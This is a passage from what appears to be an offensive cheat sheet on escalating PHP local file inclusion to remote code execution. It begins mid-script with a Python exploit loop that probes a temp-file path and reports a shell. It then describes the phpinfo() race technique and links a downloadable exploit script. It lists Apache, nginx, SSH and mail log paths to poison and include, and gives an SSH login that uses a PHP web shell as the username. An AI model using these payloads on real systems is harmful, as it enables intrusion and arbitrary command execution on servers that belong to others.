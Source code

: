 ```python
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```


## LFI to RCE via phpinfo()

PHPinfo() displays the content of any variables such as **$_GET**, **$_POST** and **$_FILES**.

> By making multiple upload posts to the PHPInfo script, and carefully controlling the reads, it is possible to retrieve the name of the temporary file and make a request to the LFI script specifying the temporary file name.

Use the script phpInfoLFI.py (also available at https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

Research from https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf

## LFI to RCE via controlled log file

Just append your PHP code into the log file by doing a request to the service (Apache, SSH..) and include the log file.

```powershell
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/nginx/access.log
http://example.com/index.php?page=/var/log/nginx/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```

### RCE via SSH

Try to ssh into the box with a PHP code as username `<?php system($_GET["cmd"]);?>`.

```powershell
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
```

Then include the SSH log files inside the Web Application.

```powershell
http://example.com/index.php?page=/var/log/auth.log&cmd=id
```
